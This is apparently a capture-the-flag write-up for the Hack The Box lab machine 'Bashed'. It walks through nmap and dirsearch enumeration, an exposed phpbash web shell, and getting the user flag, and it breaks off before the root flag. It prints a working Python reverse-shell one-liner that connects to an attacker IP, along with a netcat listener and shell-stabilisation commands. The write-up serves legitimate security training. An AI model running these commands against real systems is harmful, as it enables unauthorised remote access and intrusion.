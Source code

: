# <center>BASHED</center>

<p align="center"><img src="https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bashed/bashed_logo.png"></p>

Hey hackers. Let's solve and easy labeled linux based HTB machine named Bashed today. 

## Initial Step

- Download your open vpn configuration file and connect to htb vpn.
    - ```bash
        sudo openvpn <configuration_file_name>
      ```
- Join the machine to get an IP. (in my case it is 10.10.10.68).
- tasks given:
    - submit user flag (32 hex characters).
    - submit root flag (32 hex characters).

Now we are good to go. we can access the website through our browser. Now let's dive into our actual hacking stuffs 😉. (Disclaimer: By "hacking", I meant <strong><i>ETHICAL</strong> Hacking</i>)

<hr>

## Scanning and Enumeration

- performing agressive nmap scan on the given ip. `nmap -A -T4 10.10.10.68 -Pn`
    - -A -> agressive scan
    - -T4 -> to make the scan fast (-T0 is slowest and -T5 is fastest)
    - -Pn -> to avoid pinging the server coz we already know it's up and running.

```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ nmap -A -T4 10.10.10.68 -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-18 23:13 IST
Nmap scan report for 10.10.10.68
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14, Linux 3.8 - 3.16
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   203.71 ms 10.10.14.1
2   191.21 ms 10.10.10.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.99 seconds
```

So from the scan we have just 1 port 80 open. So let's try to access the website at http://10.10.10.68.

![home page](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bashed/home_page.png)

It has the website but the page donot contain any active functional links. hence it's useless. Let's try something else. 

- <strong> Enumerating directories for http://10.10.10.68 using <u>dirsearch</u> tool</strong> -> `dirsearch -u http://10.10.10.68 -i 200`
    - -u -> to mention the url
    - -i 200 -> only includes the result that gives 200 status code in response 

```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ dirsearch -u http://10.10.10.68 -i 200
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/cyb3ritic/reports/http_10.10.10.68/_25-01-18_23-27-28.txt

Target: http://10.10.10.68/

[23:27:28] Starting: 
[23:27:42] 200 -    2KB - /about.html
[23:27:53] 200 -    0B  - /config.php
[23:27:54] 200 -    2KB - /contact.html
[23:27:56] 200 -  479B  - /dev/
[23:28:02] 200 -  513B  - /images/
[23:28:03] 200 -  660B  - /js/
[23:28:10] 200 -  454B  - /php/
[23:28:23] 200 -   14B  - /uploads/

Task Completed
```
We got plenty of pages, let's take a look at each of them.
- /about.html -> nothing interesting
- /config.php -> completely empty page
- /contact.html -> <strong>has some input fieds, let's keep it in out sus list for now ;)</strong>
- /dev -> <strong>contains a phpbash.php file which gives us a terminal like page while. It's more suspicious. </strong>
- /php -> contains sendMail.php file. It might be teh backend for /contact.html. 
-> uploads -> completely empty page

Let's try digging more into /dev/phpbash.php.

![bashed terminal](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bashed/bashed_terminal.png)

The terminal works same like a normal linux shell. So we could easily get the user flag and root string ffrom this terminal itsef using the series of commands as showen in the below image.

![user flag direct](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bashed/user_flag_direct.png)

However if we are taking some certification exams, such methods may not help. We need to get proper revershell and then obtain the flag. so we will solve this machine by obtaining a reverse shell.

So now my first intention is to obtain a reverse shell. For this one of the method would be to run some malicious script in the terminal and get the connection to our local system via netcat.

- set up a netcat listener in our terminal on port 1234 using following command: `nc -lnvp 1234`.

- since python is available let's use python reverse shell script to gain access.
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Immediately you will land a reverse shell in your netcat listener.

![gained revershell](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bashed/rev_shell.png)

Now let's stabilize the shell first, then we will proced further to acquire flags. Use the following commands to stabilize your shell.

```bash
    python -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

Now following the same steps as before, we can acquire the user flag.

![user flag via reverse shell](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bashed/user_flag.png)
